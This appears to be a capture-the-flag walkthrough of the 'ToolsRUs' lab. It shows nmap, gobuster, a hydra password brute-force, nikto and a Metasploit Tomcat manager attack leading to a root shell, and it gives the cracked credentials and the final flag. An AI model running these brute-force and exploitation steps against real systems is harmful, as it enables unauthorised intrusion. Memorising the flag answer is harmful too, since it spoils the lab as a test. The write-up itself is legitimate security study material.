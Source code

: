 # ToolsRUs

IP: 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160221235-156f6012-65f8-4999-9204-590ac21d8733.png)

### Penetration Testing Methodology

![image](https://user-images.githubusercontent.com/44063862/160220590-db70b7dd-a85c-407f-b5d8-e42e9fa58dc3.png)

**Reconnasance**
* nmap

**Enumerating**
* gobuster
* hydra

**Exploitation**
* Apache Tomcat

**Privilege Escalation**
* Apache Tomcat/Coyote JSP engine 1.1

**Capture-the-flag**
* flag.txt

----------------------------------------------------------------
### Walkthrough

> nmap -A -v 10.10.154.123

![image](https://user-images.githubusercontent.com/44063862/160220987-1488e56b-495e-432b-b918-d18d0210edca.png)

From the nmap scanning. I found that 4 port open. Which is

* 22 (ssh)
* 80 (http)
* 1234 (http)
* 8009 (ajp13)

> gobuster dir -u 10.10.154.123 -w /root/Lists/directory-list-2.3-medium.txt

![image](https://user-images.githubusercontent.com/44063862/160221188-392ad5e9-feee-40ae-a7b8-10ae513d9ca2.png)

* /guidelines
* /protected

![image](https://user-images.githubusercontent.com/44063862/160221062-7041cfd6-1a21-43a5-ab6f-fecdf772b4f1.png)
--> msg for Bob 

![image](https://user-images.githubusercontent.com/44063862/160221118-9f0c0a30-8719-4f27-8898-9158da18f847.png)
--> need authentication

> hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.154.123 http-get /protected/

![image](https://user-images.githubusercontent.com/44063862/160221388-f0cc4148-fdef-4f19-8ab4-a5970257940f.png)

Username: Bob
Password: bubbles

**Other web service**

http://10.10.154.123:1234/

![image](https://user-images.githubusercontent.com/44063862/160221451-8e13a0aa-47fe-4626-9f74-e58369e92098.png)

Apache Tomcat/7.0.88

> nikto -h http://10.10.154.123:1234/manager/html -id "bob:bubbles"

![image](https://user-images.githubusercontent.com/44063862/160223405-6eaee543-0680-44bc-893d-763dceb2001b.png)

> nikto -h http://10.10.154.123/

![image](https://user-images.githubusercontent.com/44063862/160222653-dbc23994-9476-41de-bf8c-0b5a74ce12ad.png)

Apache/2.4.18

Find vulnerability for **Apache Tomcat/Coyote JSP engine 1.1**

```
msfconsole -q
set HttpUsername bob
set HttpPassword bubbles
set RHOSTS 10.10.231.52
set RPORT 1234
options
```

![image](https://user-images.githubusercontent.com/44063862/160222883-5cfe51ca-f2dc-483e-9d34-759e7d222022.png)

> run

![image](https://user-images.githubusercontent.com/44063862/160223129-1db51206-c050-4bc3-96cc-4a69ad9a25d9.png)

> getuid

![image](https://user-images.githubusercontent.com/44063862/160223136-11d8b898-555b-4375-9567-d98739e6e6ab.png)

> cat /root/flag.txt

![image](https://user-images.githubusercontent.com/44063862/160223208-dfb7ed1c-a715-451d-99ba-1302c8622dc9.png)

flag.txt: ff1fc4a81affcc7688cf89ae7dc6e0e1



